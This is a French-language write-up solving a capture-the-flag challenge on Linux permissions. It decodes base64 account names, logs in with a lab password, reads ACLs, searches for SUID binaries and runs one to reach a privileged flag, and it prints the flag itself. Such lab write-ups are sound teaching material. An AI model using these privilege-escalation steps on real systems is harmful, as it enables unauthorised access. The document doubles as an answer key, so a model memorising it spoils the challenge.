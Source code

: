 # 🔐 Solution du CTF Linux Permissions Master

## Étape 1: Décryptage des identifiants
```bash
# Décryptage base64
echo "cm9vdG1lX3VzZXIx" | base64 -d    # rootme_user1
echo "cm9vdG1lX3VzZXIy" | base64 -d    # rootme_user2
echo "YWRtaW5fdXNlcg==" | base64 -d    # admin_user
echo "c2VjdXJpdHlfZ3Jw" | base64 -d    # security_grp
echo "ZmxhZ190ZXN0LnR4dA==" | base64 -d # flag_test.txt
```

Étape 2: Exploration initiale
```bash

# Connexion avec rootme_user1
su - rootme_user1
password: PASSWORD123

# Exploration de /ctf
ls -la /ctf
```

Étape 3: Analyse des permissions
```bash

# Vérification des ACL
getfacl /ctf/restricted
# rootme_user1 a accès en lecture seule

# Lecture de l'indice
cat /ctf/restricted/hint.txt
```

Étape 4: Exploitation du SUID
```bash

# Recherche des binaires SUID
find /ctf -perm -4000 2>/dev/null
# /ctf/binaries/create_flag

# Exécution du binaire
/ctf/binaries/create_flag
```

Étape 5: Récupération du flag
```bash

# Le binaire a créé le vrai flag
ls -la /ctf/private/real_flag.txt
# Mais seul admin_user peut le lire!

# Solution: utiliser le binaire SUID qui s'exécute comme admin_user
# Le flag est: RM{suid_bit_escalation_1337}
```
